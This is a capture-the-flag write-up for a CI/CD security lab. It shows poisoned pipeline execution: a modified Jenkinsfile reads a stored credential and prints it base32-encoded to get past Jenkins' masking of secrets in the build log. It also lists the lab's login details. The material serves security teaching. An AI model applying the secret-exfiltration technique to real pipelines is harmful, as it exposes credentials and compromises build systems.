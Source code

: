 # Challenge Description

<p align="center">
<img src="https://github.com/khalilsellamii/CI-CD-Security-Playground/blob/main/white-rabbit-challenge/description.png" alt="Alt text" width="500" height="300">
</p>

# Write-up and thoughts  

After accessing the Gitea hosted locally on port 3000 with the credentials  
```
username : thealice
password : thealice
```
We need to follow these steps :

`1`  Clone the white rabbit repository 
```
git clone repo_link
```
`2` Create a new branch to modify the JenkinsFile 
```
git checkout -b 'white-rabbit-challenge1'
```
Now, open the JenkinsFile with your favorite TextEditor and let's dive into the fun stuff. Modify the stage and its steps to look like :
> The JenkinsFile conatins the pipeline's jobs auotamatically executed by the jenkins server, so within this file, we will perform our PPE (pipeline poisoning execution) to retrieve the requested flag from the credentials store.
```
stage ('displaying flag'){
	steps{
	withCredentials([string(credentialsID: 'flag1', variable: 'FLAG')]) {
	sh
	'''
		echo $flag1 | base32
	'''
	}
	}
}
```
> We used base32 encoding because when asked to standard output secrets or credentials, jenkins' output console will automatically display *** instead of the actual content of the secret in order not to accidentally expose sensitive informations so we encoded it to be able to retrieve it later

`4` Commit and Push the changes to the original repository

<p align="center">
<img src="https://github.com/khalilsellamii/CI-CD-Security-Playground/blob/main/white-rabbit-challenge/git.png" alt="Alt text" width="800" height="350">
</p>

`5` Log in to Jenkins hosted locally on port 8080, and check the build history section corresponding to the white rabbit repository, you will find the build results on the output console.

<p align="center">
<img src="https://github.com/khalilsellamii/CI-CD-Security-Playground/blob/main/white-rabbit-challenge/jenkins_build_flag.png" alt="Alt text" width="800" height="350">
</p>

`6` Base32 decode your flag and submit it.
<p align="center">
<img src="https://github.com/khalilsellamii/CI-CD-Security-Playground/blob/main/white-rabbit-challenge/flag.png" alt="Alt text" width="800" height="200">
</p>



